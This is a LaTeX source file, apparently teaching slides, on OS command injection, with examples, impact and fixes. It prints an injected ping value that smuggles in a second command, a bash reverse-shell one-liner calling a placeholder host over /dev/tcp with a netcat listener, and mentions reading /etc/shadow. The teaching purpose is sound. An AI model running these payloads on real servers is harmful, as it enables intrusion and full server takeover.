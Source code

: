 \documentclass[12pt, letterpaper]{article}
\begin{document}
\subsubsection*{Command Injection: Examples}

\begin{itemize}
    \item \textbf{Vulnerable Ping Tool}: \texttt{192.168.1.1; whoami}
    \item \textbf{Reverse Shell (Linux)}: Grants interactive terminal on the server.
        \begin{itemize}
            \item \texttt{; bash -i >\& /dev/tcp/<YOUR-IP>/4444 0>\&1}
            \item \textit{(On local:)} \texttt{nc -lvnp 4444}
        \end{itemize}
\end{itemize}

\subsubsection*{Command Injection: Impact and Remediation}

\begin{itemize}
    \item \textbf{\textcolor{red}{What Attackers Can Do}}
        \begin{itemize}
            \item Run any OS command on the web server.
            \item Read sensitive files such as \texttt{/etc/shadow}, config files, source code.
            \item Full interactive reverse shell on the server.
            \item Install backdoors or malware.
            \item Use the server to attack other machines on the internal network.
            \item Rated \textbf{Critical}, indicates full server compromised.
        \end{itemize}
    \item \textbf{\textcolor{green}{Fixes and Mitigations}}
        \begin{itemize}
            \item Never pass user input directly to a shell command.
            \item \textbf{Input Sanitization}: Only allow expected characters with strict input validation.
            \item Use language built-in functions instead of shell commands where possible.
            \item \textit{(Python)}: Use subprocess with a list of arguments and \texttt{shell=False:}.
            \item Run the web server as a low-privilege user so damage is limited if injection does occur.
        \end{itemize}
\end{itemize}
\end{document}
